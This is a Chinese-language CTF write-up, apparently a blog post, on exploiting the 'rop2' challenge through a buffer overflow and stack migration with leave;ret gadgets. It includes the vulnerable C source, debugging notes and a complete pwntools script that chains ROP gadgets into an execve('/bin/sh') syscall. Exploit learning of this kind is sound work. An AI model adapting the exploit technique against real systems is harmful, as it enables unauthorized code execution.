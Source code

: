 ```yaml
---
title: lys rop2 Writes up
published: 2024-08-08
tags: [CTF]
category: Cyber Security
draft: false
image: 'image.png'
---
```



### Stack Migration

當今天在串 rop gadget 的時候發現字串的大小不夠你塞，你可以用 leave ; ret 去跳到另外一個有空間 Stack 上

|  gadget   | 意思 |
|  ----  | ----  |
| leave  | mov rsp , rbp; pop rbp |
| ret  | pop rip |


### Recon

file:
![image](https://hackmd.io/_uploads/ByPV2fW5R.png)

checksec:
![image](https://hackmd.io/_uploads/r1CBnGWqA.png)

source.c:

```c=
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

char name[0x100];

size_t readbuf(char *buf, size_t len)
{
    size_t i=0;
    while(i<len){
        if(read(0,&buf[i],1)!=1){
            break;
        }
        if(buf[i]=='\n'){
            buf[i] = 0;
            break;
        }
        i++;
    }
    return i;
}

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    //printf("Gift: ")
    printf("What is your name? ");
    readbuf(name, 0x100);
    printf("Hello, %s\n", name);
    char buf[0x10];
    printf("You have a buffer overflow vuln: ");
    readbuf(buf, 0x20);
    return 0;
}
```

我們發現在 ```"You have a buffer overflow vuln: "```的 buf 大小是 10 ，但是他用 readbuf(buf,0x20) 去讀，所以導致了 buffer overflow 但是 buf 讀取的大小並不夠我們串好完整的 rop gadget ， 但是我們可以利用 Stack Migration 去達到 call execve ， 此外，這一題也是 statically linked，所以很好找到 gadget

這邊是 lys 簡報上的示意圖

這是我們第一次做完 leave 的時候:

![image](https://hackmd.io/_uploads/r1U1j3-q0.png)

這是我們第一次做完 ret 的時候:

![image](https://hackmd.io/_uploads/H1uminbcR.png)

會發現我們需要做兩次的 <font color="#f00"> leave ret; </font> 才可以讓我們的 rop gadget 跳到一個有空間的地方 ，至於為啥不用寫兩個 leave ret; 在 exp 裡面是因為程式本身就有做一次 leave ret; 了

![image](https://hackmd.io/_uploads/Sy9l6nb5A.png)



### debug 

一開始的 exp 的部分是

```py
r.sendlineafter('?','/bin/sh'+p)
```

會發程式爛掉ㄌ，所以就 gdb attach 上去看

下個斷點在 leave 前面

![leave](https://hackmd.io/_uploads/SyFsW0bqC.png)

發現程式有動到 migration 的部分，但是會發現 migration 之後就沒有一個所以然ㄌ

![bug1](https://hackmd.io/_uploads/H1gkMR-5R.png)

![bug2](https://hackmd.io/_uploads/SyrlfCWqR.png)

後面加上去 \x00 之後會發現程式正常的運作我們的　rop gadget

![solve1](https://hackmd.io/_uploads/rJFqfA-90.png)

![solve2](https://hackmd.io/_uploads/BJWhfRW9A.png)

## exploit

```py
from pwn import *

context(arch="amd64")

r=process('./rop2')


p=''

name=p64(0x4C7300)
pop_rax=p64(0x000000000044fd87)+p64(0x3b)
pop_rdi=p64(0x0000000000401f4f)+name
pop_rsi=p64(0x0000000000409f7e)+p64(0x0)
pop_rdx_pop_rbx=p64(0x0000000000485bab)+p64(0x0)+p64(0x0)
leave=p64(0x00000000004017ee)

syscall=p64(0x401d04)



p+=pop_rax+pop_rdi+pop_rsi+pop_rdx_pop_rbx+syscall


#pause()

r.sendlineafter('?','/bin/sh\x00'+p)

#pause()

r.sendlineafter(':','a'*0x10+name+leave)


r.interactive()
```

### pwned!

![image](https://hackmd.io/_uploads/SysZ7C-9C.png)
